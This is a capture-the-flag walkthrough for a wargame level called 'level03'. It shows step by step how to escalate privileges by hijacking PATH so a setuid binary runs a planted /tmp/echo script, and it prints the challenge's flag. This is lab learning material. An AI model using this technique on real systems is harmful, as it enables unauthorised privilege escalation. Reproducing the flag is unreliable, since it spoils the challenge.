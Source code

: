 # level03

We're presented with a binary executable, `./level03`. Executing it prints `Exploit me` to the standard output.

We can assume "Exploit me" is written somewhere in the code. It can be examined with gdb, but here, a simple `strings <executable>` might give us more information. We run :

```
strings ./level03 | grep Exploit
```

This yields `/usr/bin/env echo Exploit me`, meaning there's a string with those contents in the original program. This gives us our exploit : **this format is clearly fed directly to an executer**, like `system()`.

So what can we exploit ? The `echo` command here is executed by `/usr/bin/env` with a relative path, meaning it's entirely dependent on the env's `PATH` variable.

We can override it by creating an echo that does what *we* want (like a `getflag`) and changing the PATH. We run the following commands :

```
echo -e '#!/bin/bash\ngetflag' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```

The executable is tricked, and we get the following flag :

```
qi0maab88jeaj46qoumi7maus
```

*Note : this only works because `./level03` sets current user to `flag03`, by using functions like `seteuid()` to our advantage. This can be seen by running `gdb ./level03` and then, in GDB, `disas main`.*
